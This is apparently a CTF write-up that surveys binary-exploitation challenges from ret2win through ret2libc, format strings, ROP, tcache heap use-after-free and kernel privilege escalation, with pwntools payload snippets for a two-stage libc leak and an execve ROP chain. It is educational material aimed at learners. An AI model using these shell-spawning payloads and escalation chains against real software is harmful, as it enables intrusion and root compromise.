

# Pwn Challenges — CTF 2025 Binary Exploitation

> Event: Multiple CTF events, 2025 season
> Category: Pwn — overview of challenges I solved
> Difficulty: ★★ to ★★★★★ (range)

---

## Overview

This writeup summarizes the pwn challenges I solved across several CTF events in 2025. Rather than a single challenge writeup, this is a survey of the difficulty spectrum — from beginner ret2win to elite kernel exploitation — with my solve notes for each tier.



*Seven challenge archetypes ranked by difficulty. Solve them in order for steady skill progression — each tier builds on the techniques mastered in the previous one.*

---

## Tier 1 — ret2win (Difficulty: ★)

**Challenge:** Classic stack overflow with a `win()` function that prints the flag.

**Setup:**
- No PIE, no canary, NX enabled.
- `gets(buf)` into a 64-byte buffer.
- `win()` at a fixed address calls `system("cat flag.txt")`.

**Solve:**
1. `checksec` → no canary, no PIE.
2. `cyclic` → offset 72.
3. `flat(b'A'*72, ret_gadget, elf.sym.win)` — the `ret` gadget handles stack alignment.
4. Send payload, get flag.

**Takeaway:** This is the "hello world" of pwn. If you can't solve this, go back to basics. If you can solve it in under 5 minutes, you're ready for tier 2.

---

## Tier 2 — ret2libc (Difficulty: ★★)

**Challenge:** Stack overflow, no `win()` function. Must call `system("/bin/sh")` from libc.

**Setup:**
- No PIE, no canary, NX enabled, ASLR on (remotely).
- `gets(buf)` overflow.
- `puts@plt` and `puts@got` available for leaking libc.

**Solve:**
1. Overflow → return to `puts@plt` with `puts@got` as argument → leak libc address of `puts`.
2. Calculate libc base: `libc_base = leaked_puts - libc.symbols['puts']`.
3. Second payload: return to `system(libc_base + offset)` with `libc_base + binsh_offset` as argument.
4. Need to return to `main` after the leak to send the second payload.

```python
# Stage 1: leak puts@got
payload1 = flat(b'A'*72, pop_rdi, elf.got.puts, elf.plt.puts, elf.sym.main)
p.sendline(payload1)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = leak - libc.symbols['puts']

# Stage 2: system("/bin/sh")
payload2 = flat(b'A'*72, ret_gadget, pop_rdi, libc_base + next(libc.search(b'/bin/sh\x00')), libc_base + libc.symbols['system'])
p.sendline(payload2)
p.interactive()
```

**Takeaway:** The two-stage leak-then-exploit pattern is the backbone of ASLR bypass. Master it.

---

## Tier 3 — Format String Leak (Difficulty: ★★★)

**Challenge:** Format string vulnerability, no stack overflow.

**Setup:**
- `printf(user_input)` — classic format string bug.
- Stack canary present, PIE enabled.
- Must leak both canary and a PIE base address.

**Solve:**
1. Send `%p.%p.%p...` to map the stack.
2. Identify the offset where the canary appears (usually `%17$p` on x86-64).
3. Identify the offset where a code pointer appears (for PIE base calculation).
4. With canary + PIE base, build a second-stage exploit.

**Takeaway:** Format string is both a leak primitive *and* a write primitive (`%n`). The leak alone often enables a follow-up exploit (stack overflow with known canary, or GOT overwrite with known addresses).

---

## Tier 4 — ROP Chain (Difficulty: ★★★★)

**Challenge:** Stack overflow, no useful functions in the binary, no libc leak available.

**Setup:**
- No PIE, no canary, NX enabled.
- Statically linked binary (no libc) with many gadgets.
- Must build a full `execve("/bin/sh", NULL, NULL)` ROP chain via syscall.

**Solve:**
1. Find gadgets: `pop rax; ret`, `pop rdi; ret`, `pop rsi; ret`, `pop rdx; ret`, `syscall; ret`.
2. Find `/bin/sh` string in the binary (or write it to BSS via `read` gadget).
3. Build the chain: set rax=59, rdi=&"/bin/sh", rsi=0, rdx=0, then `syscall`.

```python
payload = flat(
    b'A'*72,
    pop_rax, 59,
    pop_rdi, binsh_addr,
    pop_rsi, 0,
    pop_rdx, 0,
    syscall_ret,
)
```

**Takeaway:** ROP is the universal NX bypass. With enough gadgets, you can do anything libc does — including `mprotect` to make a region executable, then jump to shellcode.

---

## Tier 5 — Heap Exploitation (Difficulty: ★★★★)

**Challenge:** Use-after-free on a heap-based note-taking application.

**Setup:**
- glibc 2.31 (tcache enabled).
- Functions: allocate note, free note, edit note, view note.
- UAF: free doesn't clear the pointer, allowing edit/view after free.

**Solve:**
1. Allocate notes A, B, C.
2. Free A (goes to tcache).
3. Edit A (UAF) — overwrite A's `fd` pointer with `&__free_hook`.
4. Allocate twice — second allocation returns `__free_hook`.
5. Write `system` into `__free_hook`.
6. Free a note containing "/bin/sh" → `system("/bin/sh")`.

**Takeaway:** Heap exploitation requires understanding glibc internals (tcache, fastbins, unsorted bin). The technique varies by glibc version — tcache was added in 2.26, tcache key in 2.29, safe-linking in 2.32. Always check the glibc version before choosing a technique.

---

## Tier 6 — Kernel Pwn (Difficulty: ★★★★★)

**Challenge:** Vulnerable kernel module (`.ko`) loaded in a QEMU VM.

**Setup:**
- Custom Linux kernel in QEMU.
- Vulnerable `.ko` module with an ioctl-based buffer overflow.
- KASLR enabled, SMEP enabled, SMAP enabled.
- Goal: escalate from `user` to `root`, read `/root/flag`.

**Solve:**
1. Reverse the `.ko` module — find the overflow in the ioctl handler.
2. Leak a kernel address via `/proc/kallsyms` (if readable) or an info leak.
3. Build a kernel ROP chain that calls `commit_creds(prepare_kernel_cred(0))`.
4. Return to userspace via `swapgs; iretq` trampoline.
5. In userspace (now as root), `system("cat /root/flag")`.

**Takeaway:** Kernel pwn is a different world. The concepts (overflow, ROP) are the same, but the target (kernel space), mitigations (KASLR, SMEP, SMAP, KPTI), and return-to-userspace mechanics are all new. Start with [pwn.college](../../00-start-here/resources/learning-platforms.md#pwncollege) kernel modules before attempting CTF kernel challenges.

---

## General Takeaways Across All Tiers

- **`checksec` is the first 30 seconds of every challenge.** It determines the entire exploit strategy.
- **The leak is the hard part.** Most modern challenges with ASLR/PIE/canary reduce to: leak addresses, then exploit. The leak technique (format string, GOT read, side channel) is the differentiator.
- **Glibc version matters for heap.** Every glibc version changes the heap mitigations. Always `nc` to the remote, check the glibc version (often provided as a download), and choose the technique accordingly.
- **Kernel pwn is the final boss.** If you can consistently solve kernel pwn challenges, you're at the elite tier. Everything else is preparation.
